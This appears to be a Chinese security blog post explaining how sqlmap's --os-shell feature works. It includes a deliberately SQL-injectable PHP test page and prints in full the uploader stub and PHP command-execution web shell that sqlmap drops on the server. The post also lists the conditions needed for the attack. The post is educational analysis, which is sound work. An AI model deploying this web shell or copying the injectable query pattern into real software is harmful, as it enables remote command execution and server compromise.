 ```yaml
---
layout: post
title: Sqlmap --os-shell原理分析
date: 2018-9-26
categories: blog
tags: [WEB]
description: 文艺的流氓。
---
```


刚好学习完了二次注入,就想知道`sqlmap`的`get  shell`是怎么实现的。

### 1.环境

我自己写一个页面。很简单

- config.php

```php
<?php 
 $serve = '127.0.0.1:3306';
 $user = 'root';
 $password = '';
 $db = 'test';
 $mysql = new Mysqli($serve,$user,$password,$db);
 $mysql->set_charset('utf-8');
?>
```

- sql.php

```php
<?php
 include "config.php";
 $id = @$_GET['id'];
 $sql = "select * from demo where id = '{$id}'";
 $row = $mysql->query($sql);
 if($row){
    $rows = $row->fetch_array();
    echo $rows['username']."<br />";
    echo $rows['password']."<br />";
    echo $rows['email']."<br />";
 }
?>
```

### 2.流程

**第一步**

我已经成功的利用注入点进行了`getshell`。

从图中可以看得到。

1. 我是选择是`php`.因为使用的语言就是`php`
2. 选择了一个绝对路径。
3. 发现了上传了两个文件分别是`tmpuigbp.php`和`tmpbesbw.php`

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926093832.png)

**流量分析**

我是通过`wireshark`抓取`sqlmap`的流量来观察的。

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094504.png)

发现`sqlmap`按路径尝试去访问文件`tmpujqbu.php`，通过 POST 上传后门文件`tmpbzhga.php`

**文件内容**

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926094813.png)

可以看的到的是`tmpuigbp.php`文件内容就是一个文件上传。并且把文件给了`755`权限

```php
<?php 
if (isset($_REQUEST["upload"])) {
    $dir = $_REQUEST["uploadDir"];
    if (phpversion() < '4.1.0') {
        $file = $HTTP_POST_FILES["file"]["name"];
        @move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    } else {
        $file = $_FILES["file"]["name"];
        @move_uploaded_file($_FILES["file"]["tmp_name"], $dir . "/" . $file) or die;
    }
    @chmod($dir . "/" . $file, 0755);
    echo "File uploaded";
} else {
    echo "<form action=" . $_SERVER["PHP_SELF"] . " method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=D:\\Software\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";
}
?>
```

而`tmpbesbw.php`文件就是一个木马文件了。一个用于执行系统命令的后门脚本文件

```php
<?php
$c = $_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set('max_execution_time', 0);
$z = @ini_get('disable_functions');
if (!empty($z)) {
    $z = preg_replace('/[, ]+/', ',', $z);
    $z = explode(',', $z);
    $z = array_map('trim', $z);
} else {
    $z = array();
}
$c = $c . " 2>&1\n";
function f($n)
{
    global $z;
    return is_callable($n) and !in_array($n, $z);
}
if (f('system')) {
    ob_start();
    system($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('proc_open')) {
    $y = proc_open($c, array(array(pipe, r), array(pipe, w), array(pipe, w)), $t);
    $w = NULL;
    while (!feof($t[1])) {
        $w .= fread($t[1], 512);
    }
    @proc_close($y);
} elseif (f('shell_exec')) {
    $w = shell_exec($c);
} elseif (f('passthru')) {
    ob_start();
    passthru($c);
    $w = ob_get_contents();
    ob_end_clean();
} elseif (f('popen')) {
    $x = popen($c, r);
    $w = NULL;
    if (is_resource($x)) {
        while (!feof($x)) {
            $w .= fread($x, 512);
        }
    }
    @pclose($x);
} elseif (f('exec')) {
    $w = array();
    exec($c, $w);
    $w = join(chr(10), $w) . chr(10);
} else {
    $w = 0;
}
print "<pre>" . $w . "</pre>";
```

访问这个文件。用参数`cmd`执行命令

![](https://wujinlin-blog.oss-cn-beijing.aliyuncs.com/img/20190926095227.png)

**原理简述**

1. 就是一个简单的上传`shell`
2. 分两个文件上传。其实可以一个文件上传
3. 使用`os-shell`的条件就是需要`FILE`权限.可写的一个环境。`PHP GPC off`
4. `os-shell`退出之后。会自动清楚这两个文件